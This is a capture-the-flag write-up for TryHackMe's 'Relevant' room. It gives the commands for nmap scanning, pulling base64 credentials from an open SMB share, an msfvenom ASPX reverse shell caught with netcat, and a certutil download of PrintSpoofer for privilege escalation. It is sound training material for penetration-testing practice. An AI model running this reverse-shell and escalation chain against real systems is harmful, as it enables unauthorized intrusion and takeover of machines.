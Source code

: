 # Relevant

**Room Link:** [https://tryhackme.com/room/relevant](https://tryhackme.com/room/relevant)&#x20;



## Scanning

### Initial Scan

<pre><code><strong>nmap -A 10.10.145.102
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

<pre><code><strong>nmap -p- 10.10.145.102
</strong></code></pre>

### 135/TCP - msrpc

```
nbtscan 10.10.145.102
```

<figure><img src="../../.gitbook/assets/image (9) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/445 - microsoft-ds

There is a share but we couldn't access with smbget but smbclient worked. There was only one file called passwords.txt

<pre><code>smbclient -L http://10.10.179.48
smbget -R smb://10.10.145.102/nt4wrksv
<strong>smbclient  \\\\10.10.145.102\\nt4wrksv 
</strong><strong>smb: \> ls
</strong>smb: \> get passwords.txt 
smb: \> exit

</code></pre>

<figure><img src="../../.gitbook/assets/image (6) (3).png" alt=""><figcaption><p>Can't download files with smbget</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (2) (2).png" alt=""><figcaption><p>Downloaded password file</p></figcaption></figure>

The file contained two bade64 encoded strings which decoded into users and passwords

```
cat passwords.txt 
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
```

**Credentials Found**

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

### Scanning for vulnerabilities

Decided to scan for vulnerabilities and nmap detected that the host is vulnerable to  m17-010 (EternalBlue)

```
sudo nmap 10.10.145.102 -p80,135,139,445,3389 --script *vuln*
```

<figure><img src="../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>

The exploit did not work as expected. It seems the credentials do not work for smb so now we must explore a different route.

```
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010/
python zzz_exploit.py -target-ip 10.10.145.102 -port 445 'Bob:!P@$$W0rD!123'
python zzz_exploit.py -target-ip 10.10.145.102 -port 445 'Bill:Juw4nnaM4n420696969!$$$'
```



### TCP/80 - HTTP

```
gobuster dir -u http://10.10.179.48 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 30

```



We can see the passwords.txt file from the browser

<figure><img src="../../.gitbook/assets/image (5) (1) (4).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

We can upload files to the nt4wrksv and view the files on webserver on  port 49663 so that means we should be able to add a reverse shell.

**Kali #1**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.179.48  LPORT=1337 — platform windows -a x64 -f aspx -o shell.aspx
smbclient \\\\10.10.231.48\\nt4wrksv
put shell.aspx

```

<figure><img src="../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

**Kali #2**

<pre><code><strong>rlwrap nc -lvnp 1337
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (11) (5).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

**Exploit:** [https://github.com/dievus/printspoofer](https://github.com/dievus/printspoofer)

As SeImpersonatePrivilege is enabled for the user we can use Printspoofer as it works on Windows 10 and Server 2016/2019.

****

**Victim**

```
systeminfo
whoami /priv
```

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/dievus/printspoofer
cd printspoofer/
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd C:\Windows\Temp
certutil -urlcache -f http://10.10.163.87:81/PrintSpoofer.exe PrintSpoofer.exe
PrintSpoofer.exe -i -c whoami
PrintSpoofer.exe -i -c powershell.exe
```

<figure><img src="../../.gitbook/assets/image (13) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (3).png" alt=""><figcaption></figcaption></figure>
